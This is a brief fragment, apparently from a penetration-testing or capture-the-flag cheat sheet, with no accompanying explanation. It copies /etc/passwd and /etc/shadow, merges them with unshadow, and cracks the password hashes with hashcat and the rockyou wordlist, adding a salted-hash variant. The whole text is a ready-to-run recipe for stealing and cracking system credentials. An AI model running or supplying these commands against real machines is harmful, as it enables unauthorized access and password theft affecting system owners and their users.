 
cat /etc/passwd > passwd.txt
cat /etc/shadow > shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O



# hash with salt
hashcat -m 1710 -a 0 hash:salt /usr/share/wordlists/rockyou.txt
